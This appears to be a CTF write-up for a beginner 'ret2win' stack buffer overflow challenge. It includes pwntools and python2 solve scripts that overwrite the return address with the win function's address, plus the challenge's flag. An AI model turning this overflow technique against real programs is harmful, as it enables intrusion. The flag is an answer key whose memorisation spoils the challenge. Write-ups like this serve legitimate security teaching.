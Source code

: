 # ret2win (500) - pwn

Total solves - 10

Final score - 488

## Description
Win the flag!

`nc ctf.copsiitbhu.co.in 31141`

Author - kn1gh7

## Atachments
chall.py

ret2win

## Box and Port
ctf.copsiitbhu.co.in:31141

## Writeup
This challenge is somewhat an extension of `executable`. Now instead of just overwriting, you had to overwrite with a useful value (the address of the `win` function)

Following is the implementation in python3 using pwntools library:

```python
# solve.py
#! /bin/python3
from pwn import *
elf = context.binary = ELF('./ret2win')
target = remote("ctf.copsiitbhu.co.in", 31141)
target.recvline()
target.sendline(b'A'*64+pack(elf.symbols.win))
target.recvline()
print("FLAG: " + target.recvline().decode('utf-8'))
```
![solve](image.png)

Following is the implementation in python2:

```python
# solve2.py
#! /bin/python2
import struct
buffer = "A"*64
payload = struct.pack("I", 0x080491a6)
print buffer+payload
```
Run `python solve2.py | nc ctf.copsiitbhu.co.in 31141`

![solve2](image-1.png)

## FLAG
COPS{y0u_w1n_7h15_fl4g}

